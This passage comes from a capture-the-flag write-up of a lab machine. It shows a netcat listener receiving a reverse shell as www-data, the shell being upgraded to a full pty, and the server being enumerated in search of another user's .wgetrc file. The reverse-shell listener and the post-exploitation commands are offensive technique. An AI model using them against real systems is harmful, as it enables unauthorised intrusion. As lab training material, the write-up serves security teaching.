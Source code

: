 Let us check back on our listener.

```bash
root@void:~# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.110] 57524
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ons$ python3 -c 'import pty;pty.spawn("/bin/bash")'     
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ ^Z
[1]+  Stopped                 nc -lvnp 443
root@void:~# stty raw -echo; fg
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ export TERM=xterm
```

We successfully get a shell as www-data. Using python, we can upgrade our shell to a full pty.

### Web-server enumeration

Now that we have a shell as www-data on the webserver, let us enumerate the server.

#### Enumeration as www-data

Enumerating the web-server, we can see that we are in a docker-container:

```bash
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ ls -alh /
total 84K
drwxr-xr-x   1 root root 4.0K Feb  3 13:14 .
drwxr-xr-x   1 root root 4.0K Feb  3 13:14 ..
-rwxr-xr-x   1 root root    0 Feb  3 13:14 .dockerenv
drwxr-xr-x   1 root root 4.0K Jul 14  2021 bin
drwxr-xr-x   2 root root 4.0K Jun 13  2021 boot
drwxr-xr-x   5 root root  340 Feb  3 13:14 dev
drwxr-xr-x   1 root root 4.0K Feb  3 13:14 etc
drwxr-xr-x   1 root root 4.0K Feb  3 13:14 home
[...]
```

Looking at the `/home` directory, we find that there is another user on the server.

```bash
www-data@webserver:/home$ ls -alh
total 12K
drwxr-xr-x 1 root    root    4.0K Feb  3 13:14 .
drwxr-xr-x 1 root    root    4.0K Feb  3 13:14 ..
drwxr-xr-x 2 www-adm www-adm 4.0K Feb  3 13:14 www-adm
```

Looking in the user's home-directory, we can see a `.wgetrc` file.

```bash
www-data@webserver:/home/www-adm$ ls -alh
total 24K
drwxr-xr-x 2 www-adm www-adm 4.0K Feb  3 13:14 .
drwxr-xr-x 1 root    root    4.0K Feb  3 13:14 ..
lrwxrwxrwx 1 root    root       9 Feb  3 13:14 .bash_history -> /dev/null
-rw-r--r-- 1 www-adm www-adm  220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 www-adm www-adm 3.5K Apr 18  2019 .bashrc
-rw-r--r-- 1 www-adm www-adm  807 Apr 18  2019 .profile
-r-------- 1 www-adm www-adm   33 Feb  3 13:14 .wgetrc
```
